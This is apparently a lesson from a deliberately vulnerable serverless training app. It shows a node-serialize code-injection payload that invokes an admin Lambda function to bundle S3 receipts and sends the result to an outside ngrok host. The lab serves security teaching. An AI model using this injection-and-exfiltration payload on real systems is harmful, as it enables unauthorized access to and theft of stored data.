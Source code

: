 # LESSON #3: Sensitive Information Disclosure

An attcker can leverage the [code injection vulnerability](../LESSONS/LESSON_01.md) to invoke an admin functionality that will disclosure all the receipts from the S3 bucket.

Sending the following payload will invoke an admin function that will pack all the receipts within the specified year and month and will created a signed url to download them.
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ADMIN-GET-RECEIPT\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"year\": \"2018\", \"month\": \"12\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"http://0c971764.ngrok.io/lol?data=\"+JSON.stringify(d));}); }()"}
```

As a result: 

![alt signed-url](https://i.imgur.com/yMkJhKi.png)


Pasting the url in the browser will download the receipts form the S3 bucket:

![alt receipts](https://i.imgur.com/OXDQC9K.png)

